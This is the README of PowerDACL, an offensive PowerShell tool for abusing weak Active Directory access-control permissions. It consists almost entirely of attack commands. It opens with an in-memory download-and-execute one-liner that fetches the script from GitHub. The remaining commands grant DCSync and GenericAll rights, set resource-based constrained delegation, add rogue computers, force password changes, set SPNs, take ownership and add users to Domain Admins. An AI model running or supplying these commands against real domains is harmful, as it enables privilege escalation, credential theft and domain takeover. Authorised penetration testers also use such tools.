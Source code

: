# PowerDACL
A tool to abuse weak permissions of Active Directory Discretionary Access Control Lists (DACLs) and Access Control Entries (ACEs)

## Load PowerDACL in memory

```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/PowerDACL/main/PowerDACL.ps1')
```

## Help Page
```
PowerDACL
```

## Grant DCSync rights
```
DCSync -Target username
```
```
DCSync -Target username -TargetDomain userdomain
```

## Grant GenericAll rights
```
GenericAll -Target MSSQL01$ -Grantee username
```
```
GenericAll -Target MSSQL01$ -TargetDomain acme.local -Grantee username -GranteeDomain domain.local
```

## Set RBCD:
```
RBCD -Target MSSQL01$ -Grantee username
```
```
RBCD -Target MSSQL01$ -TargetDomain domain.local -Grantee username -GranteeDomain acme.local
```
```
RBCD -Target MSSQL01$ -Clear
```

## Add Computer to domain
```
AddComputer -ComputerName evilcomputer -Password P@ssw0rd!
```
```
AddComputer -ComputerName evilcomputer -Password P@ssw0rd! -Domain ferrari.local
```

## Delete Computer from domain
```
DeleteComputer -ComputerName evilcomputer
```
```
DeleteComputer -ComputerName evilcomputer -Domain ferrari.local
```

## Force Change Password
```
ForceChangePass -Target username -Password P@ssw0rd!
```
```
ForceChangePass -Target username -Password P@ssw0rd! -TargetDomain usserdomain
```

## Set SPN:
```
SetSPN -Target username
```
```
SetSPN -Target username -TargetDomain userdomain -SPN "test/test"
```

## Remove SPN:
```
RemoveSPN -Target username
```
```
RemoveSPN -Target username -TargetDomain userdomain
```

## Set Owner
```
SetOwner -Target MSSQL01$ -Owner username
```
```
SetOwner -Target MSSQL01$ -TargetDomain acme.local -Owner username -OwnerDomain domain.local
```

## Enable Account
```
EnableAccount -Target myComputer$
```
```
EnableAccount -Target myComputer$ -Domain userdomain
```

## Disable Account
```
DisableAccount -Target myComputer$
```
```
DisableAccount -Target myComputer$ -Domain userdomain
```

## Add object to a group
```
AddToGroup -Target user -Group "Domain Admins"
```
```
AddToGroup -Target user -Group "Domain Admins" -Domain userdomain
```

## Remove object from a group
```
RemoveFromGroup -Target user -Group "Domain Admins"
```
```
RemoveFromGroup -Target user -Group "Domain Admins" -Domain userdomain
```
